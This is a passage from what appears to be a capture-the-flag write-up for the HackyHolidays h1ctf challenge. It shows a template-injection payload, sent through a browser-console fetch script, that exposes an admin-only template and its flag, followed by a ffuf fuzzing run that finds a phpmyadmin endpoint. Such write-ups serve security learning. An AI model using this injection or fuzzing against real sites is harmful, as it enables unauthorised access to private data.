 Next, let's modify `preview_markup` to include our new `winner` property:
```text
{{winner}}
```

Let's run the request using the following JavaScript from the debug console (press F12) on https://hackyholidays.h1ctf.com/hate-mail-generator/:
```javascript
const previewData = '{"name":"Alice","email":"alice@test.com","winner":"{{template:38dhs_admins_only_header.html}}"}';
const previewMarkup = '{{winner}}';

const formData = new FormData();
formData.append('preview_markup', previewMarkup);
formData.append('preview_data', previewData);
const body = new URLSearchParams(formData);

fetch('https://hackyholidays.h1ctf.com/hate-mail-generator/new/preview', { method: 'POST', body: new URLSearchParams(formData), headers: { 'content-type':'application/x-www-form-urlencoded'} }).then(d => d.text()).then(d => console.log(d));
```

This gives us the following response, including the seventh flag `flag{5bee8cf2-acf2-4a08-a35f-b48d5e979fdd}`: 
```html
<html>
<body>
<center>
    <table width="700">
        <tr>
            <td height="80" width="700" style="background-color: #64d23b;color:#FFF" align="center">Grinch Network Admins Only</td>
        </tr>
        <tr>
            <td style="padding:20px 10px 20px 10px">
                <h4>flag{5bee8cf2-acf2-4a08-a35f-b48d5e979fdd}</h4>
```

Sweet! While we haven't really stopped any emails from going out, we have at least managed to access the admin page!

## /forum - the eight flag
Ah yes, because what webpage is complete without a forum to gloat in! There doesn't seem to be anyone active in the forums except for the Grinch himself and Max the dog, though ...

{F1138506}

Looking through the forums and fuzzing `https://hackyholidays.h1ctf.com/forum/` doesn't actually reveal anything interesting apart from a `/phpmyadmin` endpoint that seems to be completely unwilling to do anything without proper papers...

```bash
ffuf -u https://hackyholidays.h1ctf.com/forum/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
1                       [Status: 200, Size: 2249, Words: 788, Lines: 64]
2                       [Status: 200, Size: 1885, Words: 512, Lines: 58]
login                   [Status: 200, Size: 1569, Words: 396, Lines: 34]
phpmyadmin              [Status: 200, Size: 8880, Words: 956, Lines: 79]
```
